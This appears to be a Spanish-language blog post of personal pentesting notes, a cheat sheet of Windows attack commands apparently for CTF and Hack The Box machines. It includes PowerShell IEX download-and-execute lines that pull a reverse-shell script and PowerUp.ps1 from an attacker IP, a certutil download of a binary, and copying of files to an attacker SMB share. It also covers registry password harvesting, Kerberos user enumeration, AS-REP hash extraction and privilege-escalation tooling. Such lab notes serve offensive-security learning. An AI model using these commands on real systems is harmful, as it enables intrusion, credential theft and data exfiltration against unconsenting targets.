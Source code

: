 ```yaml
---
layout: post
title: "Windows"
author: "TheusZero"
subtitle: 'Codigos mas usados'
header-img: "images/408a7d24f9d2e3e22990cc4629163cf2.png"
catalog: true
comments: true
---
```

## Windows

#### download a file

```Python
certutil.exe -f -urlcache -split http://myIpAdress/theBinary.exe thebinary.exe
```

#### powershell

```Python
start /b powershell IEX(New-Object Net.webClient).downloadString('http://miIp/Invoke-PowerShellTcp.ps1')
```

**utilizar este ya que el anterior puede dar falsos positivos**
```Python
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://miIp/Invoke-PowerShellTcp.ps1')
```

#### smb && rpc

```Python
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

```Python
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
```

```Python
sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSWORD>

sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSOWRD> -g | grep Disk | cut -f 1 -d '|'
## LIST only the names of the shared Disk
```

```Python
rpcclient -U username ip
```

#### ver permisos de ejecucion y como se ejecuta (tipo SUID)

```Python
PS C:\Users\Public\Desktop> $sh = New-Object -ComObject Wscript.Shell
PS C:\Users\Public\Desktop> $target = $sh.CreateShortcut('C:\Users\Public\Desktop\theprogram')
PS C:\Users\Public\Desktop> echo $target
```

#### obtencion de passwords
```Python
reg query HKLM /f  password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul |findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

#### cacls (access control list)
permisos para cada usuario, donde F es Full privilegios

```Python
cacls Administrator
```

```Python
cacls root.txt /grant TheUserMY:F
Y (yes)
```

#### winexe
ya cuando tenemos el tunnel hecho
```Python
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

#### netstat
recordar el exploit zzz para el samba
```Python
netstat -nat
```

#### dns

```Python
dig axfr @ip dns
```

```Python
ldapsearch -x -h IpVictima -s base namingcontexts
```

#### kerberos

```Python
kerbrute userenum -d DNS /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc IP
```

```Python
python3 GetNPUsers.py DNS/ -usersfile users.txt -dc-ip IP -format john -outputfile hashes.txt
```

#### rottenPotato
SeImpersonatePrivilege token, which means that this machine is going to be vulnerable to the RottenPotato exploit
[RottenPotato](https://github.com/ohpe/juicy-potato/releases)

aplication:

[here!](https://codewithnoah.com/posts/htb-walkthrough-jeeves)

[hackthebox machine espanol](https://www.youtube.com/watch?v=wvWxXKKFifQ&feature=youtu.be)

#### powerSploit
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

powersploit tiene un modulo para el privesec llamado **PowerUp.ps1**

> mismo principio de la powershell, se coloca esta linea al final del documento
```Python
Invoke-AllChecks
```

luego:

```Python
IEX(New-Object Net.WebClient).downloadString('http://myIp:8000/PowerUp.ps1')
```

#### descargar archivos desde la maquina

desde mi maquina de atacante debo crear un recurso compartido

```Python
impacket-smbserver smbFolder $(pwd)
```

desde la maquina windows que esta siendo atacada usando una poweshell y usando una utilidad de la misma realizamos la sincronizacion con mi equipo

```Python
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\MYIP\smbFolder"
```

```Python
copy text.txt SharedFolder:\text.txt
```

## Herramientas

[nishang](https://github.com/samratashok/nishang)

[windows exploit suggester bacan](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

[weseng](https://github.com/bitsadmin/wesng)

[Chimichurri](https://github.com/Re4son/Chimichurri)

## Link Interesantes

> [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)

#### USM

> [Malla-Interactiva-USM](https://mallas.labcomp.cl/?m=TEL)

> [Lab-Redes](http://www2.elo.utfsm.cl/~tel241/20102s/)

#### Other

> [ExploitDB](https://www.exploit-db.com/)

> [Campo de Marte](https://www.campodemarte.cl/)

> [CTFtime](https://ctftime.org/)

> [Escritura Exploits (Español)](https://fundacion-sadosky.github.io/guia-escritura-exploits/)